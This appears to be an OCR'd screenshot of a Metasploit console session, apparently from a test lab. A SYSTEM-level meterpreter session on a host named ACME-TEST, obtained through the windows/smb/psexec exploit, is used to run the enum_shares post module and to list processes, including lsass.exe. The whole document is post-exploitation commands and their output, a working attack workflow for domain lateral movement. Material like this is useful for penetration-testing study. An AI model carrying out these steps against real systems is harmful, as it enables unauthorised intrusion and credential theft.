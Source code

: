```
Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACM  10.11.81.220:4444 -> 10.1
                                     E-TEST                     0.144.209:59444  (10.10.1
                                                                44.209)

msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate Recently entered UNC Paths in the Run Di
                                       alog
   RECENT   true             yes       Enumerate Recently mapped shares
   SESSION                   yes       The session to run this module on

msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > exploit

[*] Running against session 1
[*] The following shares were found:
[*]     Name: SYSVOL
[*] 
[*]     Name: NETLOGON
[*] 
[*]     Name: speedster
[*] 
[*] Post module execution completed
msf6 post(windows/gather/enum_shares) > 

msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Windows\system32
meterpreter > ps

Process List
============

 PID   PPID  Name           Arch  Session  User                    Path
 ---   ----  ----           ----  -------  ----                    ----
 0     0     [System Proce
             ss]
 4     0     System         x64   0
 68    4     Registry       x64   0
 396   4     smss.exe       x64   0
 480   704   dwm.exe        x64   1        Window Manager\DWM-1    C:\Windows\System32\dw
                                                                   m.exe
 560   548   csrss.exe      x64   0
 636   628   csrss.exe      x64   1
 652   548   wininit.exe    x64   0
 704   628   winlogon.exe   x64   1        NT AUTHORITY\SYSTEM     C:\Windows\System32\wi
                                                                   nlogon.exe
 764   652   services.exe   x64   0
 780   652   lsass.exe      x64   0        NT AUTHORITY\SYSTEM     C:\Windows\System32\ls
```